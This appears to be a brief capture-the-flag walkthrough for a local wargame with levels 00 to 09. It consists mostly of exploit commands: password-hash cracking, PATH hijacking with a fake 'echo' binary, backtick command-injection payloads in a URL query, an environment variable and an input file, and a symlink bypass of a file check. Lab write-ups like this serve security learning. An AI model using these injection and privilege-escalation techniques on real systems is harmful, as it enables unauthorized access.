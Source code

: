 # snow_cash

## level00

- cloudshark
- john
- dcode.fr 

## level01 

`flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash`

`docker run -it kalilinux/kali-rolling'`
`john test.txt --show`

## level02 

`chmod +r`

`scp -P 4242 level02@localhost:/home/user/level02/level02.pcap  /home/sgroinfr/kali_c/shared` 

`tshark -r level02.pcap -q -z follow,tcp,ascii,0`

## level03 

`strace ./level03 | grep Exploit`
[pid 2599] system("/usr/bin/env echo Exploit me"

>The program is using system() to execute a command that uses /usr/bin/env to run echo. This is a potential vulnerability because it's using the PATH environment variable to find the echo command.

```
cd /tmp
echo '#!/bin/bash' > echo
echo 'getflag' >> echo
chmod +x echo
```
`export PATH=/tmp:$PATH`

`./level03`

## level04 

>we try differet stuff
```
curl localhost:4747/?x="\`/bin/getflag\`"
```

## level05 
`vim /opt/openarenaserver/getflag.sh`
```
#!/bin/bash
/bin/getflag > /tmp/flag05
```
## level 6

`echo '[x ${`getflag`}]' > /tmp/flag06`
`./level06 /tmp/flag06`


## level07 

`strings ./level07` 
LOGNAME
/bin/echo %s 
;*2$" what is that  
```
export LOGNAME="\`getflag\`"
```

## level08 

%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"


`ln -s $(realpath token) /tmp/symlink`
`./level08 /tmp/symlink`

## level09

UWVS
You should not reverse this
LD_PRELOAD
Injection Linked lib detected exit..
/etc/ld.so.preload

creat scripte in tmp 

```
#!/usr/bin/python
import sys
i = -1
content = open("/home/user/level09/token").readlines()[0]
for c in content:
   i += 1
     try:
        sys.stdout.write(chr(ord(c) - i))
     except:
        pass

print()
```